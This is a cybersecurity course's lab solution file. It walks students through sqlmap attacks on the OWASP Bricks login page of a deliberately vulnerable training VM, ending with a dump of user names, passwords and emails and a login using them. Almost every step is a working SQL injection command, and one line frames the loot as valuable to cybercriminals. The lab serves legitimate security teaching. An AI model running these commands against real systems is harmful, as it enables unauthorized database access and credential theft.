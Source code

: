 ## Solution File: Mapping the Database

In this activity, you learned how database attacks are constructed and executed.

---

1. In owaspbwa:

   - Navigate to OWASP Bricks.
   - Select **Bricks** in the menu bar.
   - Click **Login Pages**.
   - Click **Login #1**.
   - Make sure you click the **x** in the **You are not logged in** box. 
   - Copy the URL of the Bricks Login page.

2. In Kali Linux, open a terminal window. Type the command that displays the SQLMap help menu.
   
   - Run `sqlmap –h` to see the available options.
   
   Clear the screen.
   
3. In Kali Linux at the SQL prompt, type the `sqlmap` command that enumerates database users. Use the URL from the owaspbwa Bricks Login screen:
   
   - `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms --users`
   
4. We can see that there is a MySQL database management system running on the back-end server, which is Linux Ubuntu. Run the command that enumerates user passwords:
   
   - `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms --users --passwords`
   
5. With this information, we can perform deeper scans that reveal even more information. 

   Enumerate all of the back-end databases:
   
   - `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms --dbs`
   
6. As a cybercriminal, the database listing is particularly valuable because it can be used to connect to other databases containing credit card information and social security numbers. 

   Run the command that enumerates all tables in the `bricks` database:
   
   - `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms -D bricks --tables`
   
7. Enumerate all columns for the `users` table in the `bricks` database: 
   
   - `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms -D bricks -T users --columns`
   
8. At this stage, attackers will be able to perform data extraction with the information gathered up to this point. 

   Type the command that dumps only the names, passwords, and emails from the selected columns:
   
   - `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms -D bricks -T users -C name,password,email --dump`
   
9. Return to the web browser at the Bricks Login page and test a few of the username and password combinations to see if they work. You should gain access to the network. 

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  